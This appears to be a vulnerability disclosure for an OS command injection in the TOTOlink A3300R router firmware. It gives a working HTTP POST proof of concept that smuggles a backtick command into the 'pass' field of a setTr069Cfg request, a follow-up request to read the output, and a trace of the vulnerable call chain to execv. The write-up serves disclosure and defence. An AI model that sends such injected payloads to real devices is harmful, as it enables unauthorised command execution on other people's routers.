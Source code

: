 # TOTOlink A3300R V17.0.0cu.557_B20221024 Command Injection

## Product Information

Device: TOTOlink A3300R
Firmware Version: V17.0.0cu.557_B20221024
Manufacturer's website information：https://www.totolink.net/
Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/241/ids/36.html

![image-20240109124617070](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109124617070.png)

## Vulnerability Description

When deal with  `setTr069Cfg` request,`pass` parameter is vulnerable to OS command injection.

### POC

```
POST /cgi-bin/cstecgi.cgi?token=F30C610BF2E2EC8B HTTP/1.1
Host: itotolink.net
Content-Length: 303
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://itotolink.net
Referer: http://itotolink.net/advance/tr069_cfg.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close

{"addEffect":"0","enable":"1","url":"192.168.123.234","user":"123","pass":"123`ls>/web/678.txt`","informEnable":"0","interval":"","stunEnable":"1","stunServerAddr":"192.168.123.234","stunPort":"4343","stunMaxAlive":"3600","stunMinAlive":"30","stun_user":"123","stun_pass":"123","topicurl":"setTr069Cfg"}
```

injection the command "ls>/web/678.txt"

![image-20240109131637580](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/6/img/image-20240109131637580.png)

check the result.

```
GET /678.txt HTTP/1.1
Host: itotolink.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36 Edg/120.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://itotolink.net/advance/tr069_cfg.html?token=F30C610BF2E2EC8B
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```

![image-20240109133424560](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/6/img/image-20240109133424560.png)

## Analysis

sub_4100F0 will handle the `setTr069Cfg` request. sub_4100F0 get `pass` parameter from request body, then pass to `Uci_Set_Str` function.

![image-20240109133328195](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/6/img/image-20240109133328195.png)

`Uci_Set_Str` function Splicing uci command, and pass to `CsteSystem` function.

![image-20240109131204077](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131204077.png)

`CsteSystem` wraps the command and then passes it to `execv` to execute the command.

![image-20240109131330610](https://github.com/funny-mud-peee/IoT-vuls/blob/main/TOTOLINK%20A3300R/3/img/image-20240109131330610.png)
